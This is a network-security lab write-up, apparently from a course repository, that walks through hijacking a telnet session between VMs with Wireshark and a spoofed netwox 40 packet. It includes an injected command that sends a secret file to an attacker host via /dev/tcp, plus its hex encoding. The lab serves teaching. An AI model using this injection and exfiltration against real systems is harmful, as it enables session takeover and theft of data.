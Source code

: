 ## TCP Session Hijacking Attack

### Requirements 

In this lab, we will hijack a telnet session (between the victim client and the victim server) and inject a malicious command.

### Setup

3 Linux VMs. VM1 as the victim (telnet client); VM2 as the telnet server; VM3 as the attacker. The 3 VMs reside in the same network.

### Steps

1. let the client connect to the server using telnet.

![alt text](lab-tcp-hijack-telnet.png "Lab tcp session hijacking telnet")

2. the client creates a secret file on the server.

![alt text](lab-tcp-hijack-cat.png "Lab tcp session hijacking cat")

3. let the attacker start monitoring network traffic using wireshark.

![alt text](lab-tcp-hijack-capture.png "Lab tcp hijack capture")

4. client produces some telnet packets. (any telnet packets, you can just type a command like *ls*).

![alt text](lab-tcp-hijack-ls.png "Lab tcp hijack ls command")

5. attacker stops wireshark capturing, and navigates to the latest packet sent from the client to the server.

![alt text](lab-tcp-hijack-capture1.png "Lab tcp hijack latest tcp capture - part 1")
![alt text](lab-tcp-hijack-capture2.png "Lab tcp hijack latest tcp capture - part 2")
![alt text](lab-tcp-hijack-capture3.png "Lab tcp hijack latest tcp capture - part 3")

6. the above packet provides the information which the attacker needs to know in order to perform the tcp session hijacking attack. now, the attacker, mimicking the **client**, needs to use the *netwox 40* command to inject a telnet command. The command should be in this format: # sudo netwox 40 --ip4-src *source_ip* --ip4-dst *destination_ip* --tcp-src *source_port* --tcp-dst *destination_port* --tcp-seqnum *sequence_number* --ip4-ttl *ttl_value* --tcp-window *window_size* --tcp-ack --tcp-acknum *acknowledgment_number* --tcp-data "putyourdatahere,in hex format". Remember to replace these italic texts with information captured in wireshark. To run the command, the attacker opens a terminal window, types the *netwox 40* command, and press enter.

**Note**: because the attacker is mimicking the client, thus the source ip address needs to be the client's IP address; from the captured latest packet, we can see the sequence number is *2523450797*, the acknowledgment number is *311613137*; the source port (in this example) is 57502, the destination port is 23. the tcp window size (in this example) is 245, the time to live (ttl) value is 64. The tcp data we can use is: 0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d.

**Explanation**: why the tcp data is "0d20636174202f686f6d652f736565642f736563726574203e202f6465762f7463702f61747461636b65725f69702f39303930200d"? Because the telnet command we want to inject is: "cat /home/seed/secret > /dev/tcp/attacker_ip/9090", and we want this command to be sandwiched by two newline signs "\r", so that the command will not be concatenated with other random strings. assume the atacker's IP address is 172.16.77.130, then this is how we can convert this whole thing into hex:

![alt text](lab-tcp-hijack-command-to-hex.png "Lab tcp hijack - the tcp data")

Thus in this example, the netwox 40 command we are going to type is:
![alt text](lab-tcp-hijack-command.png "Lab tcp hijack - the netwox command")

7. before pressing enter, the attacker needs to open another terminal window so that the attacker can listen on a port - we will choose port 9090.

![alt text](lab-tcp-hijack-attack-listening.png "Lab tcp hijacking attack listening on port 9090")

- after pressing enter:
![alt text](lab-tcp-hijack-attack-after-enter.png "Lab tcp hijacking attack after enter command")

7. once the attacker pressed enter to execute the above *netwox 40* command, if the attack is successful, the victim server's secret file will be displayed in the attacker's terminal window:

![alt text](lab-tcp-hijack-success.png "Lab tcp session hijacking attack successful")

This indicates that the attack is successful and concludes the lab.
